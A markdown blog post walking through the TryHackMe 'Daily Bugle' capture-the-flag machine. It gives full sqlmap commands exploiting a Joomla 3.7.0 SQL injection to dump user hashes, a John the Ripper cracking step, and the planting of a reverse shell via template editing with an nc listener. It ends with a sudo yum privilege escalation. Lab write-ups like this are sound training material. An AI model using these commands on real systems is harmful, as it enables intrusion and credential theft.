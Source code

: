 ```yaml
---
layout: post
permalink: /posts/thm/daily-bugle
title: "Daily Bugle"
---
```


Scan the target machine with nmap

```
nmap -sC -sV <ip>
```

![nmap-scan](/assets/images/thm/daily-bugle/nmap-scan.png)

There are 3 open ports: 22, 80 and 3306. Visit the website

![website](/assets/images/thm/daily-bugle/website.png)

Wow.. Spider-man is accused of robbery. We don't have any additional imformation. Let's scan the target with Gobuster.

![gobuster](/assets/images/thm/daily-bugle/gobuster.png)

We have found that there is /administrator page.

![login-form](/assets/images/thm/daily-bugle/login-form.png)

We know the web site uses CMS Joomla. Let's use joomlascan.

```
/opt/joomscan/joomscan.pl -u http://10.10.255.36
```

![joomla-version](/assets/images/thm/daily-bugle/joomla-version.png)

We find out the Joomla version. Now we are going to use searchsploit to find a vlunerability for this version.

```
searchsploit joomla 3.7.0
```

![searchsploit](/assets/images/thm/daily-bugle/searchsploit.png)

![searchsploit-view](/assets/images/thm/daily-bugle/searchsploit-view.png)

This exploit shows us that we are going to use sqlmap

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlmap1](/assets/images/thm/daily-bugle/sqlmap1.png)

Let's try to find the credentials in joomla. We can find the table name in the joomla documentations: https://docs.joomla.org/Tables/users

![joomla-table](/assets/images/thm/daily-bugle/joomla-table.png)

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![sqlmap2](/assets/images/thm/daily-bugle/sqlmap2.png)

It looks we need to add the columns. Stop the scan, we have already had them from the documentation.

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

We found the user jonah and his hashed password. We are going to use https://hashcat.net/wiki/doku.php?id=example_hashes to identify the hash and John the Ripper to crack it.

![hash-code](/assets/images/thm/daily-bugle/hash-code.png)

```
john hash.txt --wordlist=rockyou.txt --format=bcrypt
```

![john-result](/assets/images/thm/daily-bugle/john-result.png)

We were able to log in /administrator directory with jonah:spiderman123
The web interface confirms that jonah is a superuser of the joomla installation.

![super-user](/assets/images/thm/daily-bugle/super-user.png)

This means we can edit the template used by the blog.

On the top menu go to Extensions -> Templates -> Templates

![templates](/assets/images/thm/daily-bugle/templates.png)

Now create new file

![create-file](/assets/images/thm/daily-bugle/create-file.png)

Paste monkeyReverseShell in it and start listener

```
nc -lvnp 1234
```

go to

![url](/assets/images/thm/daily-bugle/url.png)

![shell](/assets/images/thm/daily-bugle/shell.png)

Stabalize shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We are going to use linpeas

```
cd /dev/shm
```

![download](/assets/images/thm/daily-bugle/download.png)

```
./linpeas.sh
```

![linpeas](/assets/images/thm/daily-bugle/linpeas.png)

Linpeas found clear text password and we had found username jjameson in /home. Let's try to ssh with this password nv5uz9r3ZEDzVjNu

![ssh](/assets/images/thm/daily-bugle/ssh.png)

Let’s find out if jjameson is allowed to do something as another user

![sudo-l](/assets/images/thm/daily-bugle/sudo-l.png)

go to https://gtfobins.github.io/gtfobins/yum/#sudo

![gtfo](/assets/images/thm/daily-bugle/gtfo.png)

Simply copy and paste the example code from gtfobin

![poc](/assets/images/thm/daily-bugle/poc.png)